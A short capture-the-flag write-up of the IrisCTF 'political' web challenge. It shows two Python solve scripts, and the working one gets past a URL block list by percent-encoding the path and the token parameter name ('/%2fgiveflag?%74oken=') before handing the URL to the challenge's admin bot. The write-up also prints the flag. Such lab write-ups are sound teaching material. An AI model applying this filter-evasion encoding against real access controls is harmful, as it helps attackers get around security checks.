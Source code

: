 ```yaml
---
created: 2025-01-04T20:01
updated: 2025-01-06T23:20
points: 50
solves: 152
tags:
  - url
  - normalization
---
```


I knew from a glance that we have to bypass the url block list.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736122279/2025/01/eb88daca51107b101aaaa0a81793cbac.png)

I knew I can just use a second argument to bypass `token`, but idk how to bypass `*/giveflag`

```python
import requests
from pwn import *
context.log_level = "error"
t = "https://political-web.chal.irisc.tf"
token = requests.get(t + "/token").text
print(token)
p = t+'/giveflag?foo=bar&token='+token

conn = remote("political-bot.chal.irisc.tf", 1337)
conn.sendline(p.encode())
print(p)
sleep(2)
print(conn.recvall().decode())
print(requests.post(t + "/redeem", data={"token": token}).text)
```

My teammate @dxleryt then solved it.

```python
import requests
from pwn import *

context.log_level = "error"

t = "https://political-web.chal.irisc.tf"
token = requests.get(t + "/token").text
print(token)

encoded_p = t + "/%2fgiveflag?%74oken=" + token

conn = remote("political-bot.chal.irisc.tf", 1337)
conn.sendline(encoded_p.encode())
print(encoded_p)
sleep(2)
print(conn.recvall().decode())
print(requests.post(t + "/redeem", data={"token": token}).text)
```

```flag
irisctf{flag_blocked_by_admin}
```
